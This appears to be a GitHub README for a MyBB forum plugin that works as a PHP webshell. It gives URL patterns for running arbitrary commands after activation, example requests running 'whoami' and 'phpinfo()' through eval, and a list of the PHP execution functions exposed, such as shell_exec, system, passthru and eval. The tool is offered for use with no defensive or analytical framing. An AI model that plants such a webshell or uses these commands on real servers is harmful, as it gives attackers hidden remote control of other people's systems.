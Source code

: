 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Current functions:

  shell_exec
  
  passthru
  
  exec
  
  system
  
  popen
  
  proc_open
  
  eval
  
  assert
  
  pcntl_exec
  
  ``
  
